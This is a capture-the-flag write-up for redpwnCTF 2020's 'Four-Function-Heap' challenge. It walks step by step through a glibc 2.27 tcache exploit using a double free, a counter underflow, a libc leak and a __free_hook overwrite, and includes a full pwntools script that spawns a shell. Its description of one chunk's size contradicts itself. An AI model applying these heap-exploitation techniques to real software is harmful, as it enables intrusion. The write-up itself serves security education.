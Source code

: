 # Four-Function-Heap
Pwn, 490

> When ctf writers can't think of interesting problems, there's always four function heap
> 
> nc 2020.redpwnc.tf 31774

My first decent heap solve :)

The idea is to get a write and overwrite one of the hooks (I chose to overwrite `__free_hook`) with a one_gadget to get a shell.

Usual security checks gives us:
```
boshua@cybersec:~/fourfunction/bin$ pwn checksec four-function-heap 
[*] '/home/boshua/fourfunction/bin/four-function-heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

and

```
boshua@cybersec:~/fourfunction$ strings libc-2.27.so | grep GNU
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Compiled by GNU CC version 7.3.0.
```

Meaning it's probably heap exploitation as pointed out by the title.

The binary is also running on the standard `libc-2.27.so`, so tcache exploitation is probably the way to go as this version of libc doesn't really have security checks for it.

Some interesting things to note:
- Only have 14 operations in total
- Can only use index 0 to read/write/delete; the program won't accept any other index

Opening the binary into Ghidra, there is a pretty clear UAF vulnerability - when a chunk is created, a variable gets set to that pointer but isn't reset when that chunk is freed.

1. I first allocated a `0x100` sized chunk, and leaked its address with a double free and showed it. I needed this address to forge chunks later on.

2. I allocated another `0x100` chunk from the tcache freelist, and wrote the address I leaked from step 1. The tcache freelist is still the same, but now the counter is `1`. See appendix for why I did this.

3. Next, I allocated a padding chunk of size `0x420`. This chunk serves as a padding between the chunk from step 2 and the top, making sure that the previous chunk doesn't get merged with the top when it's freed. Note that this chunk is `0x100` size, because I wanted to pull from the top chunk, not the tcache.

4. I allocated another chunk of size `0x100`, as well as writing the leaked chunk address from step 1. This chunk also comes from the tcache freelist, and reduces the counter to `0x00`.

5. I finally allocated one more `0x100` chunk from tcache. This one underflowed the tcache counter to `0xff`. The pointer to this chunk was the original leaked pointer, from my overwrite in step 4.

6. I then freed it, so its address wound up in the unsorted bin. The unsorted bin's top chunk gets a pointer to the main arena (inside libc) written to it, so I leaked that.

7. I showed the chunk from step 5 and leaked the libc pointer.
    
    I calculated the libc base address from the leak, and then calculated the addresses of the `__free_hook` and the one_gadget I found.
    
8. I allocated a `0x40` sized chunk. This basically split my chunk from step 5 into two smaller chunks due to glibc's first-fit allocation. I wrote the address of `__free_hook` to this chunk.

    The address of this chunk is pointed to by the first free in action 1. After writing the address of `__free_hook`, the tcache looks something like `top -> chunk1 -> __free_hook`

9. I allocated a `0x100` sized chunk from tcache. This removed one from the tcache freelist and set me up for the `__free_hook` overwrite.

10. I allocated a `0x100` sized chunk from tcache. This chunk's address was the `__free_hook` address that I wrote in step 8. So, I can just overwrite that address with the address of the one_gadget.

11. I freed a chunk for the last time, triggering `__free_hook` and spawning the shell.


```python
from pwn import *

p = remote("2020.redpwnc.tf", 31774)
#p = process("./bin/four-function-heap")
e = ELF("./bin/four-function-heap")
libc = ELF("./libc-2.27.so")

'''
gdb.attach(p, """break * 0x555555554a50
c""")
'''

def alloc(idx, size, data="AAAA"):
	print("alloc")
	p.recvuntil(":")
	p.sendline("1")
	p.sendlineafter(": ", str(idx))
	p.sendlineafter(": ", str(size))
	p.sendlineafter(": ", data)

def free(idx):
	print("free")
	p.recvuntil(":")
	p.sendline("2")
	p.sendlineafter(": ", str(idx))

def show(idx):
	print("show")
	p.recvuntil(":")
	p.sendline("3")
	p.sendlineafter(": ", str(idx))

# Your Code Here
alloc(0, 0x100)

free(0)
free(0)
show(0)

dat = p.recvline()

curr_chunk = u64(dat[:6].ljust(8, "\x00"))
print("curr_chunk", hex(curr_chunk))

alloc(0, 0x100, p64(curr_chunk))
alloc(0, 0x420)
alloc(0, 0x100, p64(curr_chunk))
alloc(0, 0x100, "CCCCCCCC")
free(0)
show(0)

dat = p.recvline()
libc_leak = u64(dat[:6].ljust(8, "\x00"))
print("libc leak", hex(libc_leak))

libc.address = libc_leak - 0x3ebca0
print("libc address", hex(libc.address))

free_hook = libc.sym["__free_hook"]
one_gadg = libc.address + 0x4f322

print("free hook", hex(free_hook))
print("one gadget", hex(one_gadg))

alloc(0, 0x40, p64(free_hook))
alloc(0, 0x100, "AAAAAAAA")
alloc(0, 0x100, p64(one_gadg))
free(0)

p.interactive()
```

Flag: `flag{g3n3ric_f1ag_1n_1e3t_sp3ak}`


### Appendix
I wanted to leak libc to get the one_gadget address (I only had an offset from libc base due to the security protections).

The standard approach is to fill up the tcache freelist. Then, you can allocate and free one more chunk to get it in the unsorted bin, whos `fd` pointer will have a pointer to a libc address.

Each tcache bin only holds 7 freed addresses, so you can usually accomplish this by allocating 7 times, then freeing 7 times. However, that in itself is 14 operations, meaning I can't use that.

The option that I used was to underflow the tcache counter. The idea is to basically request allocations from the tcache freelist until you underflow the counter, setting it equal to 0xff. Then, you can allocate and free one more chunk to get it into the unsorted bin.